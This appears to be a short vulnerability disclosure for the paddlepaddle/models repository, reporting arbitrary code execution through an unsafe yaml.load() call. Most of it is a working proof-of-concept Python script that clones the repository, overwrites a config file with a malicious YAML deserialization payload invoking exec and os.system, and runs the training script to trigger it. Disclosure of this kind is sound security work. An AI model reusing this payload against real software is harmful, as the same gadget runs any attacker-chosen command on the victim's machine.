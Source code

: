 # Description
**Arbitrary Code Excecution** in paddlepaddle/models.
Pre-trained and Reproduced Deep Learning Models.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**
# Exploit code
**Python File**
```python
import os
os.system('git clone https://github.com/PaddlePaddle/models.git')
exploit ='''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.chdir('models/dygraph/lac/conf/')
os.system('args.yaml')
open('args.yaml','w+').write(exploit)
os.chdir('../')
os.system('python train.py')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/787733999253848064/Screenshot_from_2020-12-13_23-02-32.png)
